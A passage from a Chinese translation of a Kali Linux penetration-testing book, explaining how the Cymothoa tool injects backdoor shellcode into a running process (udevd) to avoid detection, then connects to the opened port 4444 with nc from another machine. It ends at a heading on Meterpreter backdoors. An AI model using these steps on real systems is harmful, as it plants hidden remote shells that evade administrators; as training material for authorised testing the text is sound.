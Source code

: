 # Cymothoa

**Cymothoa**是一个后门工具，允许你将其 shellcode 注入到现有进程中。这样做的原因是为了将其伪装成一个常规进程。后门应该能够与注入的进程共存，以免引起管理员的怀疑。将 shellcode 注入到进程中还有另一个优势；如果目标系统有安全工具，只监视可执行文件的完整性，而不检查内存，那么进程的后门就不会被检测到。

要运行 Cymothoa，只需输入以下命令：

```
    cymothoa  
```

你会看到 Cymothoa 助手页面。强制选项是**进程 ID**（**PID**），`-p`，要注入的和 shellcode 编号，`-s`。

要确定 PID，您可以在目标机器上使用`ps`命令。您可以使用`-S`（列出可用的 shellcode）选项来确定 shellcode 编号：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/788bb596-84bb-4923-88f6-da957a063948.png)

一旦你成功入侵目标，你可以将 Cymothoa 二进制文件复制到目标机器上生成后门。

Cymothoa 二进制文件在目标机器上可用后，您需要找出要注入的进程和 shellcode 类型。

要列出 Linux 系统中运行的进程，我们可以使用带有`-aux`选项的`ps`命令。以下截图显示了运行该命令的结果。输出中有几列可用，但为了这个目的，我们只需要以下列：

+   `用户`（第一列）

+   `PID`（第二列）

+   `命令`（第十一列）

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/8796c99d-334c-4e5c-ae36-5be189131ed9.png)

在这个练习中，我们将注入到`2765`（`udevd`）PID 中，并且我们将使用载荷编号`1`。我们需要使用`-y`选项设置载荷的端口号[port number `4444`]。以下是这种情况下的 Cymothoa 命令：

```
    ./cymothoa -p 2765 -s 1 -y 4444  
```

以下是此命令的结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/5b628fca-ba34-4dbf-8a66-b9e23e78a142.png)

让我们尝试从另一台机器登录到我们的后门（端口`4444`）上，发出以下命令：

```
    nc -nvv 172.31.99.244 4444  
```

这里，`172.31.99.244`是目标服务器的 IP 地址。

以下是结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/326cb464-6131-4344-9903-18ad5f0389f2.png)

我们已成功连接到远程机器上的后门，并且能够向远程机器发出多个命令。

由于后门附加到运行的进程，您应该意识到一旦进程被终止或远程机器被重新启动，此后门将不可用。出于这个目的，您需要一个持久的后门。

# Meterpreter 后门

